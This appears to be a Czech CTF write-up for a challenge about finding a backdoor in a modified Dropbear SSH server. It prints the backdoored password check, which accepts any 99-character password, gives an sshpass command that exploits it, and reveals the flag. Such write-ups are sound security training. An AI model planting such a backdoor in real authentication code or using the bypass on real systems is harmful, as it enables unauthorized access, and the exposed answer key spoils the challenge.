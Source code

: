 #### Challenge:

Náš systémový administrátor má tušení, že použitý SSH server obsahuje backdoor. Můžete jej v přiloženém kódu najít? Když se vám to podaří, ověřte jej v praxi a získejte přístup na tento server: `ssh ctf@forensic-night.cesnet.cz -p 20002` [dropbear-2019.78-backdoored.tar.gz](./dropbear-2019.78-backdoored.tar.gz ":ignore")

---

#### Solution:

```bash
ll -lt ./dropbear-2019.78/ | head -n 5
```

```c
if (passwordlen == 0x63 || constant_time_strcmp(testcrypt, passwdcrypt) == 0) {
    /* successful authentication */
    dropbear_log(LOG_NOTICE,
            "Password auth succeeded for '%s' from %s",
            ses.authstate.pw_name,
            svr_ses.addrstring);
    send_msg_userauth_success();
}
```

```bash
sshpass -p "$(python -c 'print "p" * 99')" ssh ctf@forensic-night.cesnet.cz -p 20002
```

---

<details><summary>FLAG:</summary>

```
flag{Steve_Wozniak-9338}
```

</details>
